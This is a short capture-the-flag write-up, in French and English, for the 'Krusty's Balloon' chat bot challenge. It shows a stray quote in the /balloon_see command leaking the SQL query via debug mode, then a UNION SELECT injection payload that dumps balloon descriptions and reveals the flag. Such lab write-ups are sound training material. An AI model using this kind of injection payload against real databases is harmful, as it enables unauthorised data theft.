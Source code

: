 # Krusty's Balloon (Krusty Bot 5)

## Write-up (français)

La description indique que le mode debug a été activé.
En faisant une erreur via une injection sql dans la commande `/balloon_see`, on reçoit un message privé du bot contenant la requête sql.
```
DEBUG MODE : unrecognized token: "''';"
This happend during the query : SELECT emoji, points FROM balloons JOIN players ON balloons.possessed_by = players.id WHERE players.name = ''';
```

De plus, on sait que l'élément que l'on veut afficher et la description du ballon.
En demandant à chat gpt on peut facilement obtenir un payload.

Celui-ci fonctionne parfaitement : `' UNION SELECT description, 1 FROM balloons--`

La commande affiche alors 
```
  emoji  |  points | description
---------|---------|- 
A balloon|   1    
Flag-1nfl4t4bl3|   1 
```

## Write-up (english)

The description says that the debug mode has been activated,
We can throw an error through an sql injection in the command `/balloon_see`, and we receive a private message from the bot containing the sql query.

```
DEBUG MODE : unrecognized token: "''';"
This happend during the query : SELECT emoji, points FROM balloons JOIN players ON balloons.possessed_by = players.id WHERE players.name = ''';
```

Knowing that the element we want to display is the balloon's description, we can ask chat gpt for a payload.

This one works perfectly: `' UNION SELECT description, 1 FROM balloons--`

The command then displays 
```
  emoji  |  points | description
---------|---------|-
A balloon|   1
Flag-1nfl4t4bl3|   1
```